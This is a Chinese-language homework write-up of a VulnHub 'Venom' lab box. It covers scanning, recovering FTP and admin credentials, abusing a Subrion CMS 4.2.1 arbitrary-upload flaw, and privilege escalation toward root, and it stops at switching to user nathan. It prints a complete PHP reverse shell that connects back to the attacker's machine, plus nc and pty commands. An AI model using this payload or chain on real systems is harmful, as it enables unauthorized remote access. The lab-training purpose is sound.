剛好是高等資安攻防 WEEK6 的作業，就順便放上來作為本網站第一篇 writeup

## Step 0. Pre-request

1. 準備 Kali Linux 虛擬機（以下簡稱 Kali）：
    - 下載 Kali (VMware)：https://cdimage.kali.org/kali-2024.3/kali-linux-2024.3-vmware-amd64.7z
    - 開啟 Kali
    

2. 準備 Venom 虛擬機（以下簡稱 Venom）
    - 下載 Venom.zip 檔案：https://download.vulnhub.com/venom/venom.zip
    
    - 下載完成可以跑 MD5 和 SHA1 確認檔案下載完整
    
    - 匯入 VMware
    - 設定網路：對 Venom 點擊右鍵 > Settings > Network Adapter > **NAT** > OK
    
    - 開啟 Venom
    
3. 觀察網路資訊
    - 檢視本機網路 (`ipconfig`)：與 VMware 有關的 IP 為 192.168.119.1 與 192.168.225.1
    
    - 在 Kali 檢視虛擬機網路 (`ip a`)：IP 為 192.168.225.131
    
    - 比對可知，虛擬機 (Kali & Venom) IP 位置應為 192.168.225.0/24

## Step 1. 尋找可用服務（入口）

1. 在 Kali 上針對 192.168.225.0/24 進行掃描，得知 Venom IP 位置應為 192.168.225.132
    
2. 針對 192.168.225.132 進行掃描，觀察開啟的服務
    
    - FTP: 21
    - HTTP: 80
    - HTTPS: 443

## Step 2. HTTP

1. 檢視 HTTP 服務相關線索：使用 `curl 192.168.225.132:80`
    
    - 發現最後有一行註解掉的線索：``
2. 將線索丟到 crackstation 解密，得知該線索為 `hostinger` MD5 雜湊值，推測 `hostinger` 為 password
    

## Step 3. FTP

1. 由前一步得知的訊息，使用 FTP 登入
    
    - 帳號：hostinger，密碼：hostinger
    - 成功登入後使用 `ls` 指令看到有一個資料夾 `files`
    - 使用 `cd files` 進入 `files` 資料夾再 `ls` 觀察底下檔案，有一個名為 `hint.txt` 的檔案
    - 使用 `get hint.txt` 下載該檔案至 Kali 主機
    - 使用 `exit` 離開 FTP 服務
2. 打開 `cat hint.txt` 檔案觀察其內容
    
    - 得到三組密文，看起來都是 base64 編碼
    - `WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=` 解碼後得到 standard vigenere cipher 
    - `aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=` 解碼後得到 https://cryptii.com/pipes/vigenere-cipher
    - `L7f9l8@J#p%Ue+Q1234` 解碼後得到，依照 `hint.txt` 說為 venom.box 管理者權限 (`dora`) 的密碼
    - 猜測需要將 `L7f9l8@J#p%Ue+Q1234` 丟到 https://cryptii.com/pipes/vigenere-cipher 透過 standard vigenere cipher 進行解密得到密碼後再去 venom.box 登入

## Step 4. venom.box

1. 去 https://cryptii.com/pipes/vigenere-cipher 進行解密，得到密碼為 `E7r9t8@Q#h%Hy+M1234`
    
2. 透過密碼登入 venom.box
    - 為了連上 http://venom.box，需先在 /etc/hosts 新增 domain name
        
    - 連上 venom.box 並登入，確認為 administrator 權限 
        
    - 也發現其網頁框架為 Subrion CMS V4.2.1

## Step 5. 取得 reverse shell

1. 檢視是否有存在漏洞
    - 使用 `searchsploit subrion cms 4.2.1` 指令
        
        - 看到其中一個漏洞為可上傳任意檔案
2. 準備 reverse shell
    - 使用 https://revshells.com 產生 reverse shell
    
    - IP 設為 Kali 的 IP 位址 `192.168.132.225`
    - port 自訂，但不衝突現存服務為原則，此 report 以 `6666` 示範
        ```php
        <?php
        // php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
        // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

        set_time_limit (0);
        $VERSION = "1.0";
        $ip = '192.168.225.131';
        $port = 6666;
        $chunk_size = 1400;
        $write_a = null;
        $error_a = null;
        $shell = 'uname -a; w; id; /bin/bash -i';
        $daemon = 0;
        $debug = 0;

        if (function_exists('pcntl_fork')) {
            $pid = pcntl_fork();
            
            if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
            }
            
            if ($pid) {
                exit(0);  // Parent exits
            }
            if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
            }

            $daemon = 1;
        } else {
            printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
        }

        chdir("/");

        umask(0);

        // Open reverse connection
        $sock = fsockopen($ip, $port, $errno, $errstr, 30);
        if (!$sock) {
            printit("$errstr ($errno)");
            exit(1);
        }

        $descriptorspec = array(
        0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
        1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
        2 => array("pipe", "w")   // stderr is a pipe that the child will write to
        );

        $process = proc_open($shell, $descriptorspec, $pipes);

        if (!is_resource($process)) {
            printit("ERROR: Can't spawn shell");
            exit(1);
        }

        stream_set_blocking($pipes[0], 0);
        stream_set_blocking($pipes[1], 0);
        stream_set_blocking($pipes[2], 0);
        stream_set_blocking($sock, 0);

        printit("Successfully opened reverse shell to $ip:$port");

        while (1) {
            if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
            }

            if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
            }

            $read_a = array($sock, $pipes[1], $pipes[2]);
            $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

            if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
            }

            if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
            }

            if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
            }
        }

        fclose($sock);
        fclose($pipes[0]);
        fclose($pipes[1]);
        fclose($pipes[2]);
        proc_close($process);

        function printit ($string) {
            if (!$daemon) {
                print "$string\n";
            }
        }

        ?>
        ```
3. 上傳 reverse shell
    - 在 http://venom.box/ 上點擊齒輪圖示進到管理者頁面 (http://venom/box/panel)，點擊右方 content > uploads 進到上傳區
        
    - 上傳準備好的 reverse shell `rev.phar`
        
4. 取得 reverse shell
    - 在另一個終端機上透過指令 `nc -nlvp 6666` 監聽 port 6666
        
    - 開新分頁 http://venom.box/uploads/rev.phar 執行 web shell
    - 終端機上成功獲取 reverse shell
        

## Step 6. 取得 root shell

1. 嘗試使用 `sudo -i` 指令切換為 root 身分，發現因為沒有 tty 所以無法執行，這樣會沒辦法拿到 root 權限
    
2. 使用 `python -c 'import pty; pty.spawn("/bin/bash");'` 將 shell 切換成 pty shell
    
3. 再次使用 `sudo -i` 指令嘗試切換為 root 身分，但無從得知 www-data 的密碼
4. 查看系統內有哪些 user，發現有 hostinger 和 nathan 兩個
    
5. 將 user 切換為 `hostinger`，同樣嘗試執行 `sudo -i` 指令，發現 `hostinger` 沒有權限
    
6. 登入 Nathan 帳戶
    - 首先應該找到 Nathan 的密碼，使用 `locate .htaccess` 可以看到以下可能檔案
    
    - 打開 `/var/www/html/subrion/backup/.htaccess`，看到一串密文，應該為 Nathan 的密碼
    
    - 使用指令 `su nathan` 切換 user 為 Nathan
